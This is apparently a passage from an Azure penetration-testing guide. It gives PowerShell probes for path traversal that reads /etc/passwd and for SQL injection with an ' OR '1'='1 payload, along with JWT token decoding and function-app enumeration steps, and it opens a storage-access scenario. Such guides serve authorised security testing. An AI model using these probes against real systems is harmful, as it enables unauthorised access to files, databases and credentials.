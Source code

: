 **Steps**:
1. Path traversal
   ```powershell
   # PowerShell
   Invoke-WebRequest -Uri "https://webapp.azurewebsites.net/../../../etc/passwd"
   # Expected Output: File contents or error
   ```

2. SQL injection
   ```powershell
   # PowerShell
   $payload = "' OR '1'='1"
   Invoke-WebRequest -Uri "https://functionapp.azurewebsites.net/api/function?param=$payload"
   # Expected Output: SQL query results or error
   ```

**Advanced Techniques**:
1. JWT Token Manipulation
   ```powershell
   # PowerShell
   $token = Get-AzAccessToken
   $decoded = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($token.split('.')[1]))
   $decoded | ConvertFrom-Json
   ```

2. Function App Exploitation
   ```powershell
   # PowerShell
   az functionapp function list --name <function-app>
   az functionapp function show --name <function-app> --function-name <function>
   ```

**Success Indicators**:
- Successful file access
- SQL query results
- Error messages indicating vulnerability

**Related Sections**:
- [Function App Access](#function-app-access)
- [JWT Assertion Exploitation](#jwt-assertion-exploitation)
- [Token Manipulation](#token-manipulation)

### Storage Access
**Scenario**: You need to gain access to Azure storage resources.

**Enumeration Path**:
1. Discovered storage accounts
2. Identified containers
3. Found sensitive data
4. Determined access method

**Prerequisites**:
- Azure CLI installed
- Valid credentials
- Appropriate permissions
